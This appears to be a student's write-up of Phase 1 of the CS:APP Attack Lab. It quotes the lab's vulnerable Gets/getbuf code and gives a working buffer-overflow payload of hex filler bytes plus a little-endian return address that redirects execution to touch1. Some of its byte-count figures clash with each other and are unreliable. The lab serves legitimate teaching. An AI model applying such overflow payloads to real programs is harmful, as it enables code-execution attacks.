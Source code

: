 # Attack Lab

> This lab teaches the students about the stack discipline and teaches them about the danger of writing code that is vulnerable to buffer overflow attacks.

Before starting the lab, read [Writeup](http://csapp.cs.cmu.edu/3e/attacklab.pdf) & CSAPP 3.10.3, 3.10.4 carefully.

## Code Injection Attack

### Phase 1

> Same as textbook.

```c
char *Gets(char *s) {
    int c;
    char *dest = s;
    while ((c = getchar()) != '\n' && c != EOF) {
        *dest++ = c;
    }
    if (c == EOF && dest == s)
        // No characters read
        return NULL;
    *dest++ = '\0'; // termination string
    return s;
}

unsigned getbuf() {
    char buf[BUFFER_SIZE];
    Gets(buf);
    return 1;
}

// getbuf is called by test
void test() {
    int val;
    val = getbuf();
    printf("No exploit. Getbuf returned 0x%x\n", val);
}

// our target
void touch1() {
    vlevel = 1; /* Part of validation protocol */
    printf("Touch1!: You called touch1()\n");
    validate(1);
    exit(0);
}
```

What we need to do is to inject a return the address of `touch1()` to `getbuf()`.

In our case, gcc allocated `0x24` bytes for `getbuf()` - 40 bytes.
That is: if input is less than 23 bytes (stack saved 16 bytes, '\0' 1 byte), it will work well.
But if input is more than 23 bytes, it will cause buffer overflow.

We need to inject a return address to `getbuf()` via buffer overflow.
The address is `0x00000000004017c0`.

So, the answer is:

```bash
# we donot care about the low 40 bytes
ff ff ff ff ff ff ff ff
ff ff ff ff ff ff ff ff
ff ff ff ff ff ff ff ff
ff ff ff ff ff ff ff ff
ff ff ff ff ff ff ff ff
c0 17 40 00 00 00 00 00 # little endian
```




